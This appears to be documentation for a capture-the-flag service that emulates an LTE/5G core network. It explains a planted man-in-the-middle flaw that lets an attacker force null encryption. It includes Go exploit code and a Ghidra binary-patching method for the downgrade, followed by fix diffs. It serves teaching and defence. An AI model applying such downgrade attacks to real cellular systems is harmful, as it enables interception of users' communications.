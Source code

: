 Service documentation
======================

# Vulnerabilities

## Man in the middle attack

*This vulnerability is inspired by security flaws in the LTE (4G) specification found by Rupprecht et al, in the paper: [Putting LTE Security Functions to the Test: A Framework to Evaluate Implementation Correctness](https://www.usenix.org/system/files/conference/woot16/woot16-paper-rupprecht.pdf)*

The registration protocol is vulnerable to a MitM (man in the middle) attack in the `RegistrationRequest` message sent from the UE:

![Protocol MitM attack](mitm.png)

The message is defined in the following `NASRegRequestMsg` struct:

```go
type EaMask uint8

type SecCapType struct {
	// 	1  |  2  | .. |  8
	// EA0 | EA1 | .. | EA7
	EaCap EaMask
	// 	1  |  2  | .. |  8
	// IA0 | IA1 | .. | IA7
	IaCap IaMask
}

type NASRegRequestMsg struct {
	MobileId MobileIdType
	SecCap   SecCapType
}
```
The `SecCap` field is used by the UE to announce which encryption and integrity algorithms it supports. When the core later on sends the `SecurityModeCommand` message, it chooses the highest version of encryption and integrity algorithm from the security capabilities it got from the UE earlier in an earlier message. 

There is no integrity protection on messages before the `LocationUpdate` message. So when an attacker have control over the gNB serving the UE (by using the gNB binary or writing their own tool), they are able to change any fields of the messages forwarded to the Core. So the attacker can control which encryption algorithms that are used. Null encryption can be forced and the flag can be extracted in clear text from the `LocationUpdate` message.


# Exploits

Both of the following exploits uses the same vulnerability, where `EaCap` is set to 0 by an attacker in the security capabilities announced by the UE.

## Re-use code

Message structs are encoded/decoded to/from bytes using the [gob](https://pkg.go.dev/encoding/gob) library in golang, which are then sent over TCP. An attacker needs to find which bytes that corresponds to the `EaCap` field. One way of doing this without digging through the raw bytes and the gob specification, is reusing code from the original service. This exploit parse bytes from the UE into a struct, change the `EaCap` field to 0 in the struct programmatically in go, encode and forwards the modified message to the Core. Here is the essence of the exploit which can be found in the [checker](https://github.com/enowars/enowars7-service-phreaking/blob/e1c7a0522583c0448f78c2c65a6c605be673de28/checker/src/internal/handler/handler.go#L257):

```go
// Receive the raw bytes from UE socket
reply, err := io.Recv(ueConn)
if err != nil {
    return nil, err
}

// Decode NAS header
var gmm nas.GmmHeader
err = parser.DecodeMsg(reply, &gmm)
if err != nil {
    return nil, err
}

// Remove header and decode registration request 
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
    return nil, errors.New("cannot decode")
}

// DISABLE EA
reg.SecCap.EaCap = 0

// Encode modified registration request 
msg, err := parser.EncodeMsg(&reg)
if err != nil {
    return nil, err
}

// Add NAS header to the registration request 
gmm.Message = msg

// Add NGAP header 
initUeMsg := ngap.InitUEMessageMsg{NasPdu: gmm, RanUeNgapId: 1}

// Send modified message to Core
err = io.SendNgapMsg(coreConn, ngap.InitUEMessage, &initUeMsg)
if err != nil {
    return nil, err
}
```

## Binary patching

The `gNB` binary can be patched into a exploit tool. 

In the source code of the binary, it creates a new `NASRegRequestMsg` struct and manually copy over the fields from the message to be forwarded:

```go
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
	fmt.Printf("Error decoding: %#v\n", err)
	return
}

newreg := nas.NASRegRequestMsg{MobileId: reg.MobileId}
newreg.SecCap.EaCap = reg.SecCap.EaCap
newreg.SecCap.IaCap = reg.SecCap.IaCap

msg, err := parser.EncodeMsg(&newreg)
```

Opening the binary in [Ghidra](https://github.com/NationalSecurityAgency/ghidra) and looking through the assembly code, we can find the copying of fields (instructions at 0050519d and 005051a1 corresponds to setting EaCap):

![Assembly of original binary](ghidra_not_patched.png)

Ghidra allows us to patch assembly instructions. Instead of moving the real value into param3 (actually RDX register), we can set RDX to zero by XOR'ing it with itself: 

![Assembly of patched binary](ghidra_patch.png)

This patch will hardcode EaCap to 0 for every forwarded registration request. A patched binary with a working exploit is provided here in the documentation folder as `gnb_patched`.

# Fix

To fix the vulnerability the core needs to apply integrity protection to the SecurityModeCommand message. The UE need to check the integrity of the message and confirm that the replayed security capabilities matches what it sent in the RegistrationRequest message.

![Fixed protocol](protocol_fixed.png)

A fixed version of the service can be found in the `fixed` branch.

Add MAC using integrity algorithm IA2 to security mode command message in the Core:

```diff
--- a/service/src/internal/core/handler.go
+++ b/service/src/internal/core/handler.go
@@ -393,7 +393,7 @@ func (amf *Amf) handleNASAuthResponse(c net.Conn, buf []byte, amfg *AmfGNB, ue *
        secModeCmd := nas.NASSecurityModeCommandMsg{EaAlg: ue.EaAlg,
                IaAlg: ue.IaAlg, ReplaySecCap: ue.SecCap,
        }
-       secModeMsg, mac, err := nas.BuildMessagePlain(&secModeCmd)
+       secModeMsg, mac, err := nas.BuildMessage(0, uint8(nas.IA2), &secModeCmd)
        if err != nil {
                return errDecode
        }
```

The UE checks if the security mode command is integrity protected using ANY integrity algorithm:

*Note: The checker simulates a Core network and will try to connect UE with null encryption, with a valid MAC - which is a feature to be supported by the service. Since a defending team might not know which integrity algorithm the checker uses for the MAC, checking for ANY algorithm might be needed*.

```diff
--- a/service/src/cmd/ue/main.go
+++ b/service/src/cmd/ue/main.go
@@ -87,12 +87,23 @@ func handleConnection(logger *zap.Logger, c net.Conn) {
                                }
                                u.ToState(ue.Authentication)
                        case msgType == nas.NASSecurityModeCommand && u.InState(ue.Authentication):
-                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
-                               if err != nil {
-                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
-                                       return
+                               for i := 1; i <= 5; i++ {
+                                       if i == 5 {
+                                               log.Errorf("Security command not integrity protected")
+                                               return
+                                       }
+                                       err = crypto.CheckIntegrity(uint8(i), msgbuf, gmm.Mac)
+                                       if err != nil {
+                                       } else {
+                                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
+                                               if err != nil {
+                                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
+                                                       return
+                                               }
+                                               u.ToState(ue.SecurityMode)
+                                               break
+                                       }
                                }
-                               u.ToState(ue.SecurityMode)
                        case msgType == nas.PDUSessionEstAccept && u.InState(ue.SecurityMode):
                                err := u.HandlePDUSessionEstAccept(c, msgbuf)
                                if err != nil {
```

After the UE checks that the MAC is valid, it must also check that the replayed security capabilities from the Core match what the UE sent out with the registration request:

```diff
--- a/service/src/internal/ue/handler.go
+++ b/service/src/internal/ue/handler.go
@@ -8,6 +8,8 @@ import (
        "phreaking/internal/io"
        "phreaking/pkg/nas"
        "phreaking/pkg/parser"
+
+       "github.com/google/go-cmp/cmp"
 )

 var (
@@ -54,6 +56,10 @@ func (u *UE) HandleNASSecurityModeCommand(c net.Conn, msgbuf []byte) error {
                return errors.New("cannot decode")
        }

+       if !cmp.Equal(msg.ReplaySecCap, u.SecCap) {
+               return errors.New("replayed security capabilities does not match")
+       }
+
        u.EaAlg = msg.EaAlg
        u.IaAlg = msg.IaAlg
```
